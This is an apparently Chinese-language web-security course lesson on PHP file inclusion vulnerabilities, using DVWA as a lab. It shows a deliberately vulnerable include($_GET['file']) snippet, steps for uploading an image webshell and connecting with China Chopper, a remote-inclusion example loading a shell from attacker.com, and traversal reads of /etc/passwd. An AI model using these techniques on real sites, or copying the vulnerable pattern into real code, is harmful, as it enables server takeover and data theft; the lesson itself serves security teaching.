# 经典15年i春秋渗透测试系统化教程 - P31：课时1 文件包含漏洞分类及上传技巧 🧩

在本节课中，我们将要学习文件包含漏洞的基础知识。文件包含漏洞在历史上是一个影响较大的安全漏洞，尤其在PHP语言环境中较为常见。我们将从漏洞的定义、分类讲起，并学习如何结合文件上传功能进行利用，最终掌握读取系统文件、利用PHP内置协议等核心技巧。

## 什么是文件包含漏洞？🔍

上一节我们介绍了课程的整体结构，本节中我们来看看文件包含漏洞的基本概念。

大多数Web语言都提供了文件包含功能。例如，开发者为了防止SQL注入攻击，常常在代码中加入包含语句来调用防注入程序，以保护网站安全。

但需要注意的是，PHP语言中的文件包含功能过于强大和灵活。相比之下，其他语言的包含功能则没有那么灵活。这正是文件包含漏洞主要出现在PHP程序中的原因。PHP提供了如 `include`、`include_once` 等函数，其功能强大，但也因此引入了更多安全隐患。这印证了一句老话：功能越强大，潜在的漏洞就越多。

## 文件包含漏洞的分类 📂

了解了漏洞的基本概念后，我们接下来看看它的主要分类。

文件包含漏洞主要分为两类：本地文件包含和远程文件包含。

*   **本地文件包含**：包含服务器本地的文件。
*   **远程文件包含**：包含远程服务器上的文件。要利用远程文件包含，需要在PHP配置文件 `php.ini` 中将 `allow_url_include` 选项设置为 `On`。默认情况下，该选项是关闭的。

两者的主要区别在于，本地包含需要先将恶意文件上传到目标服务器，而远程包含则可以直接包含互联网上任意地址的文件。

## PHP中的包含函数 🛠️




在深入利用之前，我们必须知道漏洞具体出现在哪些函数上。

PHP中主要涉及四个包含函数，漏洞就出现在对这些函数的不当使用上。在进行代码审计时，如果发现这些函数，就需要检查其参数过滤是否严格。

以下是四个关键的包含函数：
*   `include`
*   `include_once`
*   `require`
*   `require_once`

## 本地文件包含实例演示 💻

理论部分已经介绍完毕，现在让我们通过一个实际例子来理解本地文件包含是如何工作的。

假设我们有一个 `index.html` 页面，其中链接指向 `main.php?file=1.html`。`main.php` 文件的核心代码如下：

```php
<?php include($_GET['file']); ?>
```



这段代码意味着，`include` 函数会直接包含通过 `file` 参数传递过来的任何文件。当我们访问 `main.php?file=1.html` 时，服务器会执行 `1.html` 的内容。



**关键点在于**：如果 `file` 参数的值是一个包含PHP代码的图片文件（例如 `2.jpg`），那么服务器也会尝试将其中的PHP代码解析执行。这是因为PHP包含函数会将被包含的文件内容当作PHP代码来处理，无论其文件扩展名是什么。

例如，我们创建一个 `2.jpg` 文件，其内容实际是 `<?php phpinfo(); ?>`。访问 `main.php?file=2.jpg` 后，服务器会执行 `phpinfo()` 函数，而不仅仅是显示图片。这证明了本地文件包含的巨大风险。



## 结合文件上传的利用技巧 ⬆️



理解了本地包含的原理后，我们来看看在实际渗透测试中最常用的技巧：将文件包含漏洞与网站的文件上传功能结合使用。



以下是结合利用的具体步骤：
1.  **制作图片木马**：将一个正常的图片文件与一句话木马代码合并。图片可以正常显示，但其中隐藏了恶意代码。
2.  **上传图片**：利用网站的上传功能（如头像上传、附件上传）将这张“图片”上传到服务器。由于文件内容是图片，通常能绕过安全检查。
3.  **触发包含**：找到存在文件包含漏洞的页面，通过参数包含我们上传的图片文件路径。
4.  **连接木马**：使用中国菜刀等工具连接包含后执行的木马，即可获取网站控制权。



例如，在DVWA靶场中，我们可以先上传一个包含木马的 `pass.jpg` 文件，然后在文件包含漏洞点使用 `../../hackable/uploads/pass.jpg` 这样的路径来包含它，从而执行木马。



## 远程文件包含与配置 🌐



除了本地包含，我们再来看看远程文件包含的利用条件。

要利用远程文件包含，必须确保目标服务器的PHP配置允许包含远程URL。这需要修改 `php.ini` 配置文件，找到 `allow_url_include` 这一项，将其值从默认的 `Off` 改为 `On`。

配置开启后，攻击者就可以直接在包含参数中填入远程服务器上的木马文件地址（例如 `http://attacker.com/shell.txt`）。当存在漏洞的页面执行包含时，会从远程地址加载并执行木马代码，从而控制网站服务器。这种方式比本地包含更为直接和方便。

## 文件包含的其他利用方式 📖

文件包含漏洞的威力不止于执行代码，它还能用于读取敏感文件。



利用文件包含漏洞，我们可以尝试读取服务器上的各种敏感文件，例如：
*   配置文件：`../../../../etc/passwd`
*   网站源码：`../index.php`
*   日志文件
*   PHP临时文件

此外，PHP内置的多种封装协议（如 `php://filter`、`zip://` 等）可以与文件包含结合，实现更复杂的攻击，比如读取PHP文件源码、包含压缩包内的文件等。这些是文件包含漏洞更深层次的利用方式。





## 总结 📝

本节课中我们一起学习了文件包含漏洞的核心知识。我们首先了解了漏洞的定义及其在PHP中高发的原因。然后，我们学习了漏洞的两种主要分类：本地包含和远程包含，并认识了四个关键的PHP包含函数。

通过实例演示，我们掌握了本地文件包含的基本原理和利用方法。更重要的是，我们学习了如何将文件包含漏洞与常见的文件上传功能相结合，这是实战中最有效的攻击路径之一。我们还简要探讨了远程文件包含的配置条件以及其他利用方式，如读取敏感文件和利用PHP协议。




文件包含漏洞虽然现在已不常见，但理解其原理对于学习代码审计和Web安全基础至关重要。